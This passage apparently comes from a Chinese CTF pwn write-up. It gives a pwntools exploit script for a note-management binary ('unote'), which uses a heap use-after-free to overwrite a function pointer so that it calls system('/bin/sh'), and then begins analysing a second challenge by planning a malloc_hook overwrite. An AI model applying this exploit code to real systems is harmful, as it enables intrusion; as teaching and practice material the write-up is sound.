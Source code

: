         可以用来存放/bin/sh

脚本如下:

```python
from pwn import *

io = process('./unote')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' ,'-c']

def addnote(size,content):
        io.sendafter('your choice :','1')
        io.sendafter('Note size :',str(size))
        io.sendafter('Content :',content)

def delnote(idx):
        io.sendafter('your choice :','2')
        io.sendafter('Index :',str(idx))

def printnote(idx):
        io.sendafter('your choice :','3')
        io.sendafter('Index :',str(idx))
name = 0x804a070
sys = 0x08048672
io.recv()
io.send('/bin/sh\x00')
addnote(32,'A'*8)
addnote(32,'B'*8)
delnote(0)
delnote(1)

addnote(8,p32(sys)+p32(name))
printnote(0)
io.interactive()

```



---

## pwn3

checksec

![5ca32ecadd82f](https://i.loli.net/2019/04/02/5ca32ecadd82f.png)

保护全开，不能写got表，考虑写malloc__hook

看一下具体功能。

1. 三个功能 添加，展示，删除![5ca32f906f540](https://i.loli.net/2019/04/02/5ca32f906f540.png)

2. add函数，可以malloc任意大小，没有溢出![5ca32f9947535](https://i.loli.net/2019/04/02/5ca32f9947535.png)
